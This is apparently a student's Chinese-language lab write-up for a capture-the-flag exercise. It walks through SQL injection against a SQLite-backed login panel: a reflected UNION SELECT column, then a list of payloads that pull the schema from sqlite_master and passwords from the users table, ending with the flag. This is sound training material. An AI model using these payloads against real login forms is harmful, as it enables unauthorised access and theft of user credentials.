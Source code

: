 # lab_Normal Login Panel_Flag 1

1. 這題可以看到是一個登入介面，猜測這邊是要 SQL injection ，然後輸入嘗試輸入一些 SQL injection 的指令碼，像是 'OR 1=1 *--* ，但會沒辦法登入，並且下面會顯示出錯誤訊息。

![截圖 2022-12-19 上午1.25.49.png](lab_Normal%20Login%20Panel_Flag%201%20f8094d763ec14f51997114071556e321/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%25881.25.49.png)

1. 接下來嘗試去 union select ，然後可以試到 admin' union select 1,2,3,4 - - 的時候， 並且會在第四個 column 跟 login failed count : 後面的那個數字同步，推測這邊是我們要利用的點。

![截圖 2022-12-19 上午1.46.01.png](lab_Normal%20Login%20Panel_Flag%201%20f8094d763ec14f51997114071556e321/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%25881.46.01.png)

![截圖 2022-12-19 上午1.46.35.png](lab_Normal%20Login%20Panel_Flag%201%20f8094d763ec14f51997114071556e321/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%25881.46.35.png)

1. 然後講師有說這邊的 SQL 是 SQL lite ，所以我們直接用 SQL lite 的 SQL injection 去以下一個個嘗試：

```python
admin' union select 1,2,3,sql from sqlite_master limit 1,1 —
admin' union select 1,2,3,sql from sqlite_master limit 4,1 —
admin' union select 1,2,3,password from users limit 1,1 —
admin' union select 1,2,3,password from users limit 2,1 —
admin' union select 1,2,3,password from users limit 3,1 —
admin' union select 1,2,3,password from users limit 3,1 —
admin' union select 1,2,3,sql from sqlite_master limit 1,1 --
admin' union select 1,2,3,password from users limit 1,1 --
admin' union select 1,2,3,password from * limit 1,1 --4

```

4. 最後，試了以下這一段指令後，成功獲得 FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}。

```python
admin' union select 1,2,3,password from users limit 0,1 --

```

![截圖 2022-12-19 上午2.01.28.png](lab_Normal%20Login%20Panel_Flag%201%20f8094d763ec14f51997114071556e321/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%25882.01.28.png)
